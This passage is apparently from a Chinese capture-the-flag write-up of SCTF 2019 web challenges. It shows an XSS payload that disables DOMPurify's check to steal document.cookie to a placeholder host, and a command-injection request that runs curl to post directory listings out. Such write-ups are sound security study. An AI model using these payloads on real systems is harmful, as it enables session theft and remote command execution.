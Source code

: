 当DOMPurify.isSupported为false，则能够绕过过滤

于是构造

`name=a;alert(1);%0aDOMPurify[%27isSupported%27]%3dfalse&amp;text=&lt;script&gt;alert(1)`

把DOMPurify.isSupported设置为false，text参数的值就能直接插入页面中，造成xss

（这里不知道为啥直接`text=&lt;script&gt;alert(1)`就绕过csp弹窗了，可能是非预期

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t014615ccb9c6131bbc.png)

最后payload：

```
name=a;alert(1);%0aDOMPurify[%27isSupported%27]%3dfalse&amp;text=&lt;script&gt;window.location.href%3d"http://xxxx.xxxx/?a%3d"%2bescape(document.cookie)
```

两题都可以用这个paylaod打

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01db9bdb799ab6f604.png)

### <a class="reference-link" name="math-is-fun2"></a>math-is-fun2

题解同上，

payload：

```
name=a;alert(1);%0aDOMPurify[%27isSupported%27]%3dfalse&amp;text=&lt;script&gt;window.location.href%3d"http://xxxx.xxxx/?a%3d"%2bescape(document.cookie)
```

### <a class="reference-link" name="easy-web"></a>easy-web

用chrome可以看到webpack里有web接口相关信息

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t018ba4533e3d929c7e.png)

/upload接口可以打包nodejs库到zip并返回一个url给你下载

测试发现npm参数可以命令注入

```
POST /upload HTTP/1.1
Host: sctf2019.l0ca1.xyz
Connection: close
Content-Length: 173
Accept: application/json, text/plain, */*
Origin: https://sctf2019.l0ca1.xyz
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36
Content-Type: application/json;charset=UTF-8
Referer: https://sctf2019.l0ca1.xyz/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

`{`"key":"abcdefghiklmn123","npm":[";curl http://xxx:8088/ -X POST -d "`ls -al`""]`}`

```
